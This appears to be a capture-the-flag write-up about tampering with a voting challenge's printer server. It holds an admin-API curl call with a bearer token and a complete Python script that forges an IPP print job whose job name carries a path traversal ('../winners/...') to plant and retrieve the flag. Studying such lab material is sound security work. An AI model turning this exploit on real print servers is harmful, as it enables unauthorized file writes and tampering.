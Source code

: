 # Who checks the integrity of the integrity checks?
In this challenge, we're told that there was a mismatch in votes and asked if it's possible to tamper with the printed receipts. We're given the source code for a printer server, but no address for where its located. 
### Finding the Server
When attempting to solve this challenge, you should already have the address for the mobile voting app backend, as well as have found the private polling key to allow access to the admin API functions. In those functions there's a `/get-config` endpoint which will return the current config for the polling location that our authentication key was generated for. 
```
dot@stuff:~/Development/CTF/Archive/cysea 2025/week 4$ curl http://mobile-app.commission.freedonia.vote/api/admin/get-config -H "Authorization: Bearer 6e6f747468657265616c746f6b656e"
{"printer":"192.168.1.1"}
```
We now have the IP for the printer server that we can use for the next step.
### Printing the Flag
Looking at the source code for the printer server, our goal is to pass a print job to the server where we use path traversal to print the flag in the challenge target directory rather than the default print job folder. As there's no checks for path traversal this will be fairly straight forward, however we do need to format our payload as an IPP print job, and provide the path as the job name. We can copy the code from the `send_ipp_print_job` function in the mobile backend code, adapting it to our requirements. We then need to fetch the "printed" file from the print server.
```python
import re
import requests
import struct

def send_ipp_print_job(ip, print_path, payload):
    # Attempt to simulate IPP packet
    ipp_request = b""
    ipp_request += struct.pack(">BB", 0x02, 0x00)
    ipp_request += struct.pack(">H", 0x0002)
    ipp_request += struct.pack(">I", 1)
    ipp_request += b"\x01"

    def add_attr(name, value, tag=b"\x42"):
        ipp_request_list = []
        ipp_request_list.append(tag)
        ipp_request_list.append(struct.pack(">H", len(name)))
        ipp_request_list.append(name.encode())
        ipp_request_list.append(struct.pack(">H", len(value)))
        ipp_request_list.append(value.encode())
        return b"".join(ipp_request_list)

    ipp_request += add_attr("attributes-charset", "utf-8", b"\x47")
    ipp_request += add_attr("attributes-natural-language", "en", b"\x48")
    ipp_request += add_attr("printer-uri", f"http://{ip}/printers/votes", b"\x45")
    ipp_request += add_attr("requesting-user-name", "printer")
    ipp_request += add_attr("job-name", print_path)
    ipp_request += b"\x03"
    ipp_request += payload

    url = f"http://{ip}/printers/votes"
    headers = {
        "Content-Type": "application/ipp"
    }

    print(requests.post(url, headers=headers, data=ipp_request, timeout=5))

target_ip = "192.168.1.1"
print_filename = "flag_4d7f9c.txt"
send_ipp_print_job(target_ip, f"../winners/{print_filename}", b"testing")
result = requests.get(f"http://{target_ip}/files/{print_filename}")
print(result.text)
```
Our print job payload is sent, and we then request the resulting file from the server. After running the script the flag should be printed in the console!